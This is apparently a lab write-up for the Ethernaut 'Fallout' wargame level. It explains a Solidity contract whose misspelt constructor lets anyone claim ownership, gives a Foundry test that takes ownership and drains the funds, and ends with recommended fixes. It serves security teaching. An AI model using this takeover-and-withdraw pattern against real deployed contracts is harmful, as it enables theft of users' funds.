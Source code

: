 # Level 2 - Fallout

## Objectives

- claim ownership of the contract

## Contract Overview

The `Fallout` contract works like a bank. It allows users (allocators) to
allocate ether into their separate balances.

- User can deposit money via `allocate()` function.
  - Their allocation will be saved in the `allocations` mapping.

```solidity
  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }
```

- Users can withdraw the money at any time via the `sendAllocation()` function
  by specifying themselves as the beneficiary in the function parameter.
- Users can also send their allocations to other allocators (they need to be
  present in the mapping) via the same `sendAllocation()` function.

  ```solidity
  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }
  ```

- The owner of the `Fallout` contract can withdraw all of the gathered funds at
  any time via the `collectAllocations()` function.
  ```solidity
  function collectAllocations() public onlyOwner {
  msg.sender.transfer(address(this).balance);
  }
  ```
- User can check the current balance of any allocator via the `allocatorBalance()` function.
  ```solidity
  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
  ```

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout_slither.png)

## Finding the weak spots

The method has a comment that mentions that it's the contructor. Constructor methods run only right after the contract is deployed and they're commonly used to initialize the contract's state, like assigning an owner in this case. Constructors are declared using the constructor keyword or a function with the same name as the contract, in this case `Fallout`.

This contract is using solidity `^0.6.0` where construct should have the same name as name of contract so it should be named `Fallout()` but we have a misspelt here because what looks like the constructor is just a misspelt function `Fal1out` that can be called by anyone to claim ownership.

In other words the contract does not use the `constructor()` function, but instead a publicly accessible function named Fal1out(). Any account that sends some Ether to this function will be set as the new owner of the contract.

```solidity
  /* constructor */
  function Fal1out() public payable { // <-- this line over here
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

## Potential attack scenario (hypothesis)

Attacker can call the faulty constructor and claim ownership of the contract. He can then withdraw all the funds.

## Plan of the attack

1. Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
2. Attacker as the owner can withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/02-Fallout.t.sol))

```solidity
        // Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
        emit log_string("Calling Fal1out() function");
        falloutContract.Fal1out{value: 1}();

        emit log_named_address(
            "New owner of the contract: ",
            falloutContract.owner()
        );

        // Attacker as owner can withdraw all the funds
        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(falloutContract).balance
        );

        emit log_string("Calling collectAllocations() function");
        falloutContract.collectAllocations();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(falloutContract).balance
        );

        // Test assertion
        assertEq(falloutContract.owner(), attacker);

        assertEq(address(falloutContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout.png)

## Recommendations

1. \[CRITICAL\] The constructor of the `Fallout` contract should be fixed. Here
   is an example fix:

```solidity
constructor () public payable {
	owner = msg.sender;
	allocations[owner] = msg.value;
}
```

2. The emission of events should be added to the critical contract functions
   that modify the state of the contract. This will allow for better
   communication with off-chain components. It will also provide users with a
   better sense of what is happening inside the contract.
3. The use of OpenZeppelin TimelockController is recommended on
   `collectAllocations()` function to provide a better user experience and
   increase safety.

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/2.-fallout-typo-in-constructor

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
